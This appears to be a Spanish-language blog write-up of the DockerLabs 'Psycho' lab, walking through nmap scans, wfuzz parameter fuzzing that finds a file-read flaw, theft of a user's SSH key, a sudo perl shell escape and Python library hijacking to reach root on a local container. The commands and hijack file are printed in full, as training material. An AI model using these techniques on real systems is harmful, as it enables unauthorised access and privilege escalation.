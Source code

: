```yaml
---
title: DockerLabs - Psycho
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, ]
media_subpath: "/assets/img/posts/dockerlabs_psycho"
image:
  path: main.webp
published: false
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:40 GMT
Initiating ARP Ping Scan at 00:40
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:40, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:40
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:40, 10.21s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000056s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65556 (2.626MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -sCV -p22,80 172.17.0.2                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:40 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

## análisis

Revisando la pagina principal del puerto 80, encontramos un error que salta a la vista al final de la misma:

![Desktop View](/20251027015538.webp){: width="972" height="589" .shadow}

Posiblemente reaccione en base a si se le ha pasado un cierto parámetro a la URL. Por ello, buscamos si con alguna cadena responde de otra forma:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Psycho]
└─$ wfuzz -c --hc=404 --hh=2596 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2?FUZZ=test" -t 200
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2?FUZZ=whoami/
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                             
=====================================================================

000005155:   200        62 L     166 W      2582 Ch     "secret"
```

En este caso, con el parámetro `secret` vemos que podemos llegar a leer fichero del servidor:

![Desktop View](/20251027015432.webp){: width="972" height="589" .shadow}

![Desktop View](/20251027015621.webp){: width="972" height="589" .shadow}

## explotación

Buscamos ficheros que nos puedan dar acceso al servidor, y encontramos que el usuario `vaxei` tiene en su directorio una clave privada, la cual podemos usar para acceder por SSH:

![Desktop View](/20251027125955.webp){: width="972" height="589" .shadow}

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Psycho]
└─$ ssh -i id_rsa vaxei@172.17.0.2
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.16.8+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Aug 10 02:25:09 2024 from 172.17.0.1
vaxei@88b8cebfc8cd:~$ whoami
vaxei
```

Listando los permisos SUDO del usuario vemos que puede ejecutar `perl` con los permisos del usuario `luisillo`:

```bash
vaxei@88b8cebfc8cd:~$ sudo -l
Matching Defaults entries for vaxei on 88b8cebfc8cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 88b8cebfc8cd:
    (luisillo) NOPASSWD: /usr/bin/perl
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) vemos que podemos obtener una consola como otro usuario si tenemos permisos SUDO usando `perl`:

![Desktop View](/20251027020757.webp){: width="972" height="589" .shadow}

Ejecutamos la instrucción indicada, y ya tendríamos acceso como el usuario `luisillo`:

```bash
vaxei@88b8cebfc8cd:~$ sudo -u luisillo perl -e 'exec "/bin/bash";'
luisillo@88b8cebfc8cd:/home/vaxei$ whoami
luisillo
```

## escalada de privilegios

Revisamos los permisos SUDO de este usuario también, y vemos que en este caso, lo que puede hacer es ejecutar con `python` un cierto script:

```bash
luisillo@88b8cebfc8cd:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 88b8cebfc8cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 88b8cebfc8cd:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

El contenido del script es:

```python
luisillo@88b8cebfc8cd:/opt$ cat paw.py 
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Vemos que al ejecutarlo nos da un cierto error, el cual nos da una pista de como podemos obtener acceso como `root`:

```bash
luisillo@88b8cebfc8cd:/home/vaxei$ sudo /usr/bin/python3 /opt/paw.py
Ojo Aqui
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.
Useless calculation result: 499999500000
Traceback (most recent call last):
  File "/opt/paw.py", line 41, in <module>
    main()
  File "/opt/paw.py", line 38, in main
    run_command()
  File "/opt/paw.py", line 30, in run_command
    subprocess.run(['echo Hello!'], check=True)
  File "/usr/lib/python3.12/subprocess.py", line 548, in run
    with Popen(*popenargs, **kwargs) as process:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'echo Hello!'
```

Sabemos que podemos llegar a listar el listado de ubicaciones donde se buscan las librerías que usa `python` al ejecutar un script:

```bash
luisillo@88b8cebfc8cd:/opt$ python3 -c "import sys; print(sys.path)"
['', '/usr/lib/python312.zip', '/usr/lib/python3.12', '/usr/lib/python3.12/lib-dynload', '/usr/local/lib/python3.12/dist-packages', '/usr/lib/python3/dist-packages']
```

Debido a que la primera ubicación por defecto es en la que nos encontramos en el momento de ejecutar un script, podemos llegar a efectuar lo que se conoce como `Python library hijacking`, donde el objetivo es crear un fichero que contenga las instrucciones que queramos, pero que se llame igual a una librería oficial de `python`:

```bash
luisillo@88b8cebfc8cd:/opt$ cat subprocess.py 
import os; os.system("/bin/bash")
```

De esta forma, tras ejecutar el comando de los permisos SUDO, obtendríamos una consola como el usuario `root`:

```bash
luisillo@88b8cebfc8cd:/opt$ sudo /usr/bin/python3 /opt/paw.py
root@88b8cebfc8cd:/opt# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>